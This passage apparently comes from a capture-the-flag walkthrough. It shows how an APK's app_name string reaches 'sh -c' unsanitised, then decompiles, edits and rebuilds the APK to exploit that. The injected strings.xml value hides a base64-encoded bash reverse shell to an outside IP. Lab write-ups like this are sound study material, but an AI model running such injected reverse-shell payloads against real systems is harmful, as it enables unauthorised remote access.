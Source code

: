 Looking at the app_check function, we realize that this function might be vulnerable to command injection attacks as we can supply the payload into the app_name of the /res/values/strings.xml file, and the $APP_NAME variable in the function only checks if the variable name contains the word "Catch".

```
app_check() {
        APP_NAME=$(grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" "$1/res/values/strings.xml")
        echo $APP_NAME
        if [[ $APP_NAME == *"Catch"* ]]; then
                echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'
                mv "$3/$APK_NAME" "$2/$APP_NAME/$4"
        else
                echo "[!] App doesn't belong to Catch Global"
                cleanup
                exit
        fi
}
```

To exploit that, we would first have to disassemble the apk file so that we can access the /res/values/strings.xml file. 
```
┌──(kali㉿kali)-[~/Desktop/catch]
└─$ apktool d catch.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.6.1 on catch.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

Next, we will move to modify the app_name value in the /res/values/string.xml file by adding our reverse shell payload in

```
<string name="app_name">Catch;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQwMDAgMD4mMQ== | base64 -d | bash</string>
```

Lastly, we will then build the apk and save it into exploit.apk file. 

```
┌──(kali㉿kali)-[~/Desktop/catch]
└─$ apktool b catch -o exploit.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.6.1
I: Checking whether sources has changed...
I: Checking whether resources has changed...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...
```
